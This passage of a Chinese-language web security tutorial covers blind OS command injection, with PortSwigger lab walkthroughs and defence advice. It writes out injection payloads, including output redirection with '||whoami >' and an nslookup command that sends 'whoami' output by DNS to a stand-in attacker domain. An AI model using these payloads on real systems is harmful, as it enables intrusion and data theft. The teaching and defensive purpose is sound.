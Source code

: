 `>` 字元將 `whoami` 指令的輸出發送到指定檔案。接著，你可以使用瀏覽器存取 `https://vulnerable-website.com/whoami.txt` 來查看檔案，並看到注入的指令的輸出。

::: tip **Lab: [Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)**
1. 使用 Burp Suite 的 Intercept 並修改查詢庫存的請求。
2. 將 `storeID` 參數的值改成 `email=x||whoami > /var/www/images/whoami.txt||`。
3. 接著存取找到存取照片的 API：`/image?filename=16.jpg`
4. 將 `filename` 參數的值改成 `whoami.txt` 即可查看注入的指令的輸出並完全此 Lab。
:::

### 透過界外應用程式安全測試（OAST）技術利用盲指令注入

你可以透過 OAST 技術，使用注入的指令觸發外部的網路交互。例如：

```bash
& nslookup kgji2ohoyw.web-attacker.com &
```

此 payload 會使用 `nslookup` 指令對指定網址進行 DNS 查詢。攻擊者可以檢測是否真的有進行查詢，以確認指令是否已成功注入。

::: tip **Lab: [Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)**
1. 只有專業版的 Burp Suite 可以做這題啦，我窮人www
:::

OAST 提供了一種簡單的方法將注入的指令輸出傳出去：

```bash
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

這會導致 DNS 查詢包含 `whoami` 指令輸出的網域名：

```raw
wwwuser.kgji2ohoyw.web-attacker.com
```

::: tip **Lab: [Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)**
1. 還是一樣需要專業版 Burp Suite 啦，歡迎贊助～
:::

## 如何防範指令注入攻擊

防止指令最有效的方法就是絕對不要透過應用的程式碼中調用底層 OS 指令。在幾乎所有的情況下，都有其他的方式可以使用更安全的 API 執行所需的功能。

如果你仍然需要使用使用者提供的輸入調用 OS 指令，則必須執行強輸入驗證。有效的驗證包含：

* 根據允許的值進行白名單驗證
* 驗證輸入是否為數字
* 驗證輸入是否僅包含字母、數字字元，不包含其他語法或空格

且無嘗試透過轉譯 shell 字元來清理輸入。在實踐中，這太容易造成失誤，並被攻擊者繞過。
